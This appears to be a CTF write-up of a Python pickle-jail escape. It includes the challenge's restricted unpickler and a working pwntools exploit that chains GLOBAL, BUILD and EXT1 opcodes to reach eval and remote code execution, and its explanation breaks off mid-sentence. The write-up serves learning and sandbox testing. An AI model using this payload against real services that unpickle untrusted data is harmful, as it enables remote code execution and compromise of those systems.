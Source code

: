# You shall not call Revenge

## challenge

Never have I seen a pickle, worming its way out of a jail, whose exploitation did not rely upon the calling of some nefarious function. Thus, I hereby declare: there shall be no call heeded within this domain anymore. It is for I yearn the secure confinement of pickles; and shall not stand their escape.

The server isn't changed, but you must get RCE to read flag this time.

server.py
```py
#!/usr/bin/env python3

import __main__
import pickle
import io

# Security measure -- forbid calls
for op in ['reduce', 'inst', 'obj', 'newobj', 'newobj_ex']: #pickle.REDUCE, pickle.INST, pickle.OBJ, pickle.NEWOBJ, pickle.NEWOBJ_EX]:
    id = getattr(pickle, op.upper())[0]
    delattr(pickle._Unpickler, pickle._Unpickler.dispatch[id].__name__)
    pickle._Unpickler.dispatch[id] = lambda _: print("Stop right there, you heineous criminal!") or exit()

# Security measure -- remove dangerous class and method
del pickle.Unpickler
del pickle._Unpickler.find_class

# Security measure -- overload unpickler with an actually secure class
class SecureUnpickler(pickle._Unpickler):
    def find_class(self, _: str, name: str) -> object:
        # Security measure -- prevent access to dangerous elements
        for x in ['exe', 'os', 'break', 'set', 'eva', 'help', 'sys', 'load', 'open', 'dis']:
            if x in name:
                print("Smuggling contraband in broad daylight?! Guards!")
                break
        # Security measure -- only the main module is a valid lookup target
        else:
            return getattr(__main__, name)

# Security measure -- remove dangerous magic
for k in list(globals()):
    if '_' in k and k not in ['__main__', '__builtins__']:
        del globals()[k]

# Security measure -- remove dangerous magic
__builtins__ = { k: getattr(__builtins__, k) for k in dir(__builtins__) if '_' not in k }

# My jail is very secure!
data = io.BytesIO(bytes.fromhex(input('$ ')))
SecureUnpickler(data).load()
```

there is also a readflag binary in some directory idk where but it is just to check that rce has been achieved

## solution

```py
from pwn import *
from pickle import *

# for k in __main__.__builtins__:
#     setattr(__main__.__main__, k, __main__.__builtins__[v])
p = GLOBAL + b'__main__\n__main__\n' + PUT + b'1\n' + NONE + GLOBAL + b'__main__\n__builtins__\n' + TUPLE2 + BUILD

# 
p += GLOBAL + b'__main__\nSecureUnpickler\n' + PUT + b'2\n'
p += GLOBAL + b'__main__\ngetattr\n' + PUT + b'3\n'
p += GLOBAL + b'__main__\npickle\n' + NONE + MARK + UNICODE + b'_inverted_registry\n' + MARK + INT + b'0\n' + MARK + GET + b'1\n' + UNICODE \
        + b'eval\n' + LIST + INT + b'1\n' + MARK + UNICODE + b'breakpoint()\n' + LIST + DICT + DICT + TUPLE2 + BUILD
p += GET + b'2\n' + NONE + MARK + UNICODE + b'find_class\n' + GET + b'3\n' + DICT + TUPLE2 + BUILD
p += EXT1 + b'\x00' + PUT + b'4\n'
p += GET + b'2\n' + NONE + MARK + UNICODE + b'find_class\n' + GET + b'4\n' + DICT + TUPLE2 + BUILD + POP
p += EXT1 + b'\x01' + STOP

# 1 is main module
# 2 is SecureUnpickler
# 3 is getattr

# build __main__.__builtins__ onto __main__.__main__
# build onto inverted registry the dict {0: [__main__.__main__, 'eval'], 1: 'breakpoint()'}
# __main__.SecureUnpickler.find_class = getattr
# use ext opcode
# win

io = process(['python3', 'chall.py'])
io.sendline(p.hex().encode())
io.interactive()
```

this one was enjoyable

the way that this worked was that we could first do a standard module-submodule builtins grab by using the `GLOBAL` opcode to do `getattr(__main__, "__main__")` and then 
also `getattr(__main__, "__builtins__")` and then building the dict (build opcode has almost arbitrary setattr)

then, 
